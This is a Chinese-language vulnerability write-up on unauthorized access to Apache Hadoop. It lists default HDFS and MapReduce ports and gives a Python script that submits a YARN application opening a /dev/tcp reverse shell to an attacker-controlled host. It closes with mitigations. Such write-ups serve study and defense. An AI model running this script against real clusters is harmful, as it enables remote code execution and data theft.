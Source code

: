 Hadoop未授权访问
================

一、漏洞简介
------------

> Hadoop是一款由Apache基金会推出的分布式系统框架，它通过著名的 MapReduce
> 算法进行分布式处理。这个框架被Adobe，Last
> fm，EBay，Yahoo等知名公司使用着。它极大地精简化程序员进行分布式计算时所需的操作，用户大概通过如下步骤在hadoop中实现分布式处理：

-   用户创建一个处理键值的map函数

-   产生了一套中间键/值

-   reduce函数合并中间值并把他们关联到对应的键

二、影响范围
------------

三、复现过程
------------

#### 1. 扫描探测

##### 1.1 常见端口

![](./.resource/Hadoop未授权访问/media/rId26.png)

##### 1.2 敏感端口

  模块        节点                     默认端口
  ----------- ------------------------ ----------
  HDFS        NameNode                 50070
  HDFS        SecondNameNode           50090
  HDFS        DataNode                 50075
  HDFS        Backup/Checkpoint node   50105
  MapReduce   JobTracker               50030
  MapReduce   TaskTracker              50060

通过访问 NameNode WebUI 管理界面的 50070
端口，可以下载任意文件。而且，如果 DataNode 的默认端口 50075
开放，攻击者可以通过 HDSF 提供的 restful API 对 HDFS
存储的数据进行操作。

![](./.resource/Hadoop未授权访问/media/rId28.png)

#### 2. 攻击手法

利用方法和原理中有一些不同。在没有 hadoop client 的情况下，直接通过 REST
API 也可以提交任务执行。

利用过程如下：

-   在本地监听等待反弹 shell 连接

-   调用 New Application API 创建 Application

-   调用 Submit Application API 提交

**P牛的攻击脚本**

    ##!/usr/bin/env python

    import requests

    target = 'http://127.0.0.1:8088/'
    lhost = '192.168.0.1' ## put your local host ip here, and listen at port 9999

    url = target + 'ws/v1/cluster/apps/new-application'
    resp = requests.post(url)
    app_id = resp.json()['application-id']
    url = target + 'ws/v1/cluster/apps'
    data = {
        'application-id': app_id,
        'application-name': 'get-shell',
        'am-container-spec': {
            'commands': {
                'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
            },
        },
        'application-type': 'YARN',
    }
    requests.post(url, json=data)

![](./.resource/Hadoop未授权访问/media/rId30.png)

#### 3. 防范措施

网络访问控制 使用 安全组防火墙 或本地操作系统防火墙对访问源 IP
进行控制。如果您的 Hadoop 环境仅对内网服务器提供服务，建议不要将 Hadoop
服务所有端口发布到互联网。

启用认证功能 启用 Kerberos 认证功能。

更新补丁 不定期关注 Hadoop 官方发布的最新版本，并及时更新补丁。
